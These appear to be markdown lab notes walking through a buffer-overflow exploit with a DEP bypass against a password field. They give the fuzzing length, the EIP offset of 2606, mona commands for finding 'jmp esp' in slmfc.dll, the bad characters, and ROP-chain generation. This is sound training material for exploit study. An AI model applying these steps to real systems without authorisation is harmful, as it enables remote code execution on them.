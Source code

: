 # DEP_bypass----Buffer_Overflow



### 1. Fuzzing

- buffer overflow in password field
- after sending 3000 bytes

- we successfully overwrite instruction pointer

![image-20201219113741138](DEP_bypass----Buffer_Overflow.assets/image-20201219113741138.png)





### 2. Controlling EIP

```
!mona pc 3000
```

```
!mona po address
```

- we need to find offset, so that control it with our desired value

- offset is at 2606

![image-20201219114413350](DEP_bypass----Buffer_Overflow.assets/image-20201219114413350.png)

- we can control EIP after 2606 bytes of offset

![image-20201219114612851](DEP_bypass----Buffer_Overflow.assets/image-20201219114612851.png)



### 3. finding jmp esp

```
!mona jmp -r esp
!mona find -s '\xff\xe4' -m slmfc.dll
```



- jump esp is there to make EIP control go to stack where payload is loaded and then execute it

![image-20201219120233709](DEP_bypass----Buffer_Overflow.assets/image-20201219120233709.png)



### 4. finding badchars

```
!mona compare -f file -a address
```



- badchars

```
"\x00\x0a\x0d"
```



### 5. with DEP

```
!mona rop -m *.dll -n -cpb "\x00\x0a\x0d"
```

